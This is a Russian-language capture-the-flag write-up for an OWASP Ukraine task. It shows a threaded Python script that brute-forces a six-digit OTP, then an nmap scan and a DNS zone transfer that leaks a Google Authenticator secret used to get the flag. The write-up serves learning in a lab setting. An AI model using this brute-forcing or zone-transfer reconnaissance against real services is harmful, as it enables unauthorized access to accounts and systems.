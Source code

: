 # Kharkiv (15.owaspctf.gq)

На главной странице видим форму ввода OTP и подсказку `@owaspukraine.org`

Изначально я решил задание брутфорсом, но чуть ниже опишу как прохождение задумывалось изначально.

`bruteforce.py`:

```
#!/usr/bin/python3

import asyncio
import concurrent.futures
import requests
import sys

def genotp():
    otp = 0
    while True:
        yield otp
        otp += 1

otp = genotp()
async def main():
    while True:
        with concurrent.futures.ThreadPoolExecutor(max_workers=25) as executor:
            loop = asyncio.get_event_loop()
            futures = [
                loop.run_in_executor(
                    executor,
                    requests.get,
                    'http://15.owaspctf.gq/?OTP={:06d}'.format(next(otp))
                )
                for i in range(1000)
            ]
            for response in await asyncio.gather(*futures):
                if 'WRONG' not in response.text:
                    print(response.text)
                    sys.exit(0)
                pass

if __name__ == '__main__':
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())
```

На деле, все решается гораздо легче, если предварительно просканировать порты главного CTF сервера.

```
nmap --open --top-ports=50 -T3 dashboard.owaspctf.gq

Nmap scan report for dashboard.owaspctf.gq (104.248.93.50)
Host is up (0.036s latency).
Not shown: 40 closed ports, 3 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8000/tcp open  http-alt
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

53 порт -> bind -> axfr?

```
dig axfr owaspukraine.org. @dashboard.owaspctf.gq

owaspukraine.org.       3600    IN      SOA     ns.owaspukraine.org. sa.owaspukraine.org. 1 3600 600 86400 3600
owaspukraine.org.       3600    IN      NS      ns1.owaspukraine.org.
owaspukraine.org.       3600    IN      NS      ns2.owaspukraine.org.
admin.owaspukraine.org. 3600    IN      A       10.1.1.4
cdn.owaspukraine.org.   3600    IN      A       10.1.1.3
flag.owaspukraine.org.  3600    IN      TXT     "Google_Auth_Secret" "2OWASPUKRAINECTF"
git.owaspukraine.org.   3600    IN      A       10.1.1.4
ns1.owaspukraine.org.   3600    IN      A       10.0.0.1
ns2.owaspukraine.org.   3600    IN      A       10.0.0.2
sa.owaspukraine.org.    3600    IN      A       10.1.1.2
static.owaspukraine.org. 3600   IN      CNAME   www.owaspukraine.org.
wap.owaspukraine.org.   3600    IN      CNAME   www.owaspukraine.org.
www.owaspukraine.org.   3600    IN      A       10.1.1.1
owaspukraine.org.       3600    IN      SOA     ns.owaspukraine.org. sa.owaspukraine.org. 1 3600 600 86400 3600
```

Добавляем токен `2OWASPUKRAINECTF` в свой Google Auth (я добавил на телефоне, но есть и плагин для Chrome и модули для питона).
Получаем OTP, отправляем.

`FLAG{One_Time_Password}`
